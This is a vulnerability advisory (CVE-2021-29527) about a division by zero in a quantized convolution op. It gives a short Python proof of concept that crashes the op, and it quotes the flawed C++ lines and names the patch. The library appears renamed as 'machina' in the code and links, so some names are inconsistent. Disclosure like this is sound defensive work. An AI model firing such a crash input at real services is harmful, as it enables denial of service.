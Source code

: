 ## TFSA-2021-016: Division by 0 in `QuantizedConv2D`

### CVE Number
CVE-2021-29527

### Impact
An attacker can trigger a division by 0 in `tf.raw_ops.QuantizedConv2D`:

```python
import machina as tf

input = tf.zeros([1, 1, 1, 1], dtype=tf.quint8)
filter = tf.constant([], shape=[1, 0, 1, 1], dtype=tf.quint8)
min_input = tf.constant(0.0)
max_input = tf.constant(0.0001)
min_filter = tf.constant(0.0)
max_filter = tf.constant(0.0001)
strides = [1, 1, 1, 1]
padding = "SAME"


tf.raw_ops.QuantizedConv2D(input=input, filter=filter, min_input=min_input, max_input=max_input, min_filter=min_filter, max_filter=max_filter, strides=strides, padding=padding)
```

This is because the
[implementation](https://github.com/machina/machina/blob/00e9a4d67d76703fa1aee33dac582acf317e0e81/machina/core/kernels/quantized_conv_ops.cc#L257-L259) does a division by a quantity that is controlled by the caller:

```cc
const int filter_value_count = filter_width * filter_height * input_depth;
const int64 patches_per_chunk = kMaxChunkSize / (filter_value_count * sizeof(T1));
```

### Patches
We have patched the issue in GitHub commit
[cfa91be9863a91d5105a3b4941096044ab32036b](https://github.com/machina/machina/commit/cfa91be9863a91d5105a3b4941096044ab32036b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.

